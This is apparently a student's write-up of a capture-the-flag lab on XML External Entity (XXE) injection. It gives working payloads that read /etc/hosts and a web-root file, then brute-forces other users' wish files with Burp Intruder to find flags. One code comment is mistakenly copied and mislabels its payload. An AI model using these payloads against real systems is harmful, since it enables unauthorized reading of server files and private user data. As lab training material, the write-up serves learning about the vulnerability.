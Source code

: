 # Day 5 : SOC-mas XX-what-ee?

## Learning Objectives

- Understand the basic concepts related to XML
- Explore XML External Entity (XXE) and its components
- Learn how to exploit the vulnerability
- Understand remediation measures

## Terminologies

`XML` is a commonly used method to transport and store data in a structured format that humans and machines can easily understand. You can think of XML as a `digital filing cabinet`. Just as a filing cabinet has folders with labelled documents inside,`XML uses tags to label and organise information`.

`DTD` is a set of rules that defines the structure of an XML document. Just like a database scheme, it acts like a blueprint, telling you what elements (tags) and attributes are allowed in the XML file.

`Entities` in XML are `placeholders` that allow the `insertion of large chunks of data or referencing internal or external files`. They assist in making the XML file easy to manage, especially when the same data is repeated multiple times. 

`XXE is an attack that takes advantage of how XML parsers handle external entities`. When a web application processes an XML file that contains an external entity, the parser attempts to load or execute whatever resource the entity points to.

## Approach 

We open the link on BurpSuite and intercept it. I found 3 items and then added one of them to cart.

Now when I opened the cart and proceeded to checkout. It asked for a name and address and I gave a random one.

At the end of that it said our wish has been saved as wish#21 which was a link but we get an error message.

![alt text](./Images/Day5.png)

Now the 2nd request, i.e the Wishlist one had the XML structure in it so that's one place where I should look for. 

![alt text](./Images/Day-5(1).png)

Then I inputted the given payload :

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>   // Defining an XML document, defining external entity called payload and we're reading the /etc/host file (which resolves IPs to domains - remote filereading)
<wishlist>                                                
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

Now Web Servers onn Linux have a common location like `var/www/html`.

So our new payload is :

```
```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_21.txt"> ]>   // Defining an XML document, defining external entity called payload and we're reading the /etc/host file (which resolves IPs to domains - remote filereading)
<wishlist>                                                
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

![alt text](./Images/Day5(2).png)

Now instead of wish_21 if I put wish_1 or something like that, I could read other's wishes.

Then I opened intruder. The wish I sent was wish_1.txt and did the following

![alt text](./Images/Day5(3).png)

This gave me multiple requests and their responses, I found the flag in `wish_15.txt`

`Flag : THM{Brut3f0rc1n6_mY_w4y}`

There is even a changelog at this IP and we find another flag over there.

![alt text](./Images/Day5(4).png)
 `Flag : THM{m4y0r_m4lw4r3_b4ckd00rs}`

 ![alt text](./Images/Day5(6).png)
